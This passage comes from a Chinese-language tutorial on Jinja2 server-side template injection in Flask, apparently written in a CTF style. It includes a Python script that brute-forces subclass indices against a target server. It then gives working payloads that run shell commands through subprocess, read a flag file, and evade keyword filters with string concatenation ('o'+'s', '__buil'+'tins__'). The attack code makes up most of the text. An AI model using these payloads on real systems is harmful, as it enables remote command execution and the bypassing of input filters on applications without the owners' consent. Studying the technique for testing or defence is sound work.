 `subprocess` 意在替代其他几个老的模块或者函数，比如：`os.system`、`os.popen` 等函数。

首先编写脚本遍历目标Python环境中含有 `subprocess ` 这个函数的子类的索引号：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url, headers=headers)
    if 'linecache' in res.text:
        print(i)

# 得到索引为245
```

则构造如下payload执行命令即可：

```
{{[].__class__.__base__.__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}

# {{[].__class__.__base__.__subclasses__()[245]('要执行的命令',shell=True,stdout=-1).communicate()[0].strip()}}
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174659-268a5d54-bd3e-1.png)

## Flask-jinja2 SSTI Bypass姿势

### 关键字绕过

####  利用字符串拼接绕过

我们可以利用“+”进行字符串拼接，绕过关键字过滤，例如：

```
{{().__class__.__bases__[0].__subclasses__()[40]('/fl'+'ag').read()}}

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("o"+"s").popen("ls /").read()')}}

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil'+'tins__']['eval']('__import__("os").popen("ls /").read()')}}
```

只要返回的是**字典类型**的或是**字符串格式**的，即payload中引号内的，在调用的时候都可以使用字符串拼接绕过。
